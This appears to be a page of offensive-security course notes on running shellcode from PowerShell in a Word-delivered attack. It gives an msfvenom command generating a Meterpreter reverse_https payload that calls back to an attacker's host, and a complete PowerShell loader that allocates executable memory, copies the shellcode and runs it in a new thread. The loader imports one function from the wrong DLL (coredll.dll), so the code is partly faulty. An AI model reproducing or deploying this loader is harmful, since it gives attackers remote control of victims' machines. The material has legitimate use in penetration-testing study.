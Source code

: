 ```yaml
---
title: PowerShell Shellcode in Word
layout: default
parent: Client Side Execution
---
```


Similar to CSharp, the theory is to:
1. Allocate memory with `VirtualAlloc(0, sizeOfShellcodeArray, 0x3000, 0x40)`
2. Copy shellcode using `[System.Runtime.InteropServices.Marshal]::Copy(shellcodeBuffer, 0, startAddress, $size)`. startAddress here is the return value of `VirtualAlloc()` in step 1.
3. Execute with `CreateThread(0, 0, startAddress, 0, 0, 0)`, and assign the value to `$thandle`
4. Don't exit the newly created thread even though our PowerShell is closed using `WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")`

First, generate the shellcode using msfvenom:

```
msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1
```

Then put it into the Powershell code below:

```powershell
$Shell32 = @"
using System;
using System.Runtime.InteropServices;

public class Shell32{
[DllImport("Kernel32.dll")][return: MarshalAs(UnmanagedType.LPArray, SizeParamIndex = 1)]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, UIntPtr dwSize, uint flAllocationType, uint flProtect);

[DllImport("Kernel32.dll")][return: MarshalAs(UnmanagedType.SysInt)]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("coredll.dll", SetLastError = true)]
public static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
}
"@

Add-Type $Shell32

[Byte[]] $buf = SHELLCODE HERE
$size = $buf.length
[IntPtr]$addr = [Shell32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Shell32]::CreateThread(0,0,$addr,0,0,0);
[Shell32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```
